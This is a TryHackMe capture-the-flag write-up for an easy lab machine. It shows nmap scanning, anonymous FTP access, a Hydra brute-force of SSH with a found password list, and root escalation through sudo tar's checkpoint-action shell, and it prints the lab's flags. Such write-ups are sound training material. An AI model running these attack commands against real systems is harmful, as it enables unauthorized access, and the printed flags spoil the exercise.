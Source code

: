 # Bounty Hunter Writeup (Easy)
### TryHackMe 
### Ean Dudley, 12/20/2021

### Task 1: Deploy The Machine 
Connect to the machine via the attack box or openvpn 

### Task 2: Find Open Ports 
I used NMAP to find open ports using the following syntax: 

``` bash
sudo nmap -sC -sV [TargetIP]
``` 

I got the following return: 

``` bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:11 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.94 seconds
```

Lets add the the flag ``` -Pn ``` and see if we can find any open ports. 
``` bash 
sudo nmap -sC -sV -Pn [TargetIP] 
```

Using the -Pn flag was successful and the following output was given: 
```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:12 EST
Nmap scan report for 10.10.79.132
Host is up (0.14s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.77.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.40 seconds
```

There seem to be three ports running services that may be helpful: 
	Port 21 FTP 
	Port 22: SSH
	Port 80: TCP 

FTP also has anonymous login available to access two files: 
	- task.txt
	- locks.txt 
	
### Task 3: Who wrote the task list? 

FTP has a file called task.txt and anonymous access. Lets login to FTP and see if we can find out who wrote the tasklist. 

``` bash 
ftp [targetIP]
``` 

After executing this command you should get the following output, and be prompted for the name (See line 3 of the following output).  Enter: 'anonymous' to take advantage of the FTP anonymous login. 

```bash
Connected to 10.10.79.132.
220 (vsFTPd 3.0.3)
Name (10.10.79.132:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now you should see your prompt change to ```ftp>``` and you can begin using FTP to read the files. Lets get both files onto our local machine and then read them. 

``` bash
ftp> get 
(remote-file) task.txt
(local-file) task.txt 

ftp> get 
(remote-file) lock.txt
(local-file) lock.txt
```

Back on our local machine lets read these files, starting with task.txt. 

``` bash
cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We get our **Answer** for task 3: **lin**

### Task 4:  What service can you bruteforce with the text file found?

We can bruteforce** SSH** using Hydra since we have a username. Conveniently, the lock.txt file has a list of what appears to be passwords so we can run a wordlist based attack on SSH to login. 

### Task 5: What is the users password? 

Lets use **Hydra** as we talked about before to run an attack on SSH using the username lin. 

``` bash 
hydra -l lin -P locks.txt 10.10.79.132 -t 4 ssh
``` 

The ``` -l ``` flag specifies the username and the ``` -P ``` flag specifies the password list. The ``` -t 	``` flag is used to specifies the number of thread to use for the attack. Hydra recommends 4 threads for SSH. 

After running this command we should get the following output: 
``` bash 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-20 13:21:27
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.79.132:22/
[22][ssh] host: 10.10.79.132   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-20 13:21:37
``` 

We see that our password is: **RedDr4gonSynd1cat3**. 

### Task 6: user.txt 

Login to ssh using ``` lin@[targetIP]``` and when prompted for the password use the answer from question 4. 

After logging into the system use cat to read the user.txt file: 
``` bash 
cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

**Flag: THM{CR1M3_SyNd1C4T3}**

### Task 7: root.txt 

Now that we have an initial foothold, lets try to gain root access. To start let's see if we have authorization to run anything as root that we may be able to exploit: 

```bash
sudo -l 
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

``` 

We see that we have authorization to run ``` tar ``` as root. We can exploit this by using the following command: 

``` bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


*If you are unsure how to exploit tar, there are a lot of good resources online. This one is my favourite: https://gtfobins.github.io/gtfobins/tar/*

We should not be able to pop a shell with root access: 

``` bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
cat /root/root.txt
THM{80UN7Y_h4cK3r}
``` 

We get our **root flag: THM{80UN7Y_h4cK3r}**

### Summary 
We initially scan this machine using nmap and have to force ports to respond using the  -Pn option. From NMAP we see that we can login to FTP anonymous access in order to read a tasklist and a password list. We can then use that password list and the username found in the tasklist to brute-force an attack on SSH using Hydra. Using the login credentials to SSH found by Hydra, we can login and get our initial access. Then we can use sudo on the target machine to find if there are any vulnerable commands we can utilize to get root access. Sudo shows that tar is able to be executed at a super user level, and we are able to exploit tar to get root level access. 
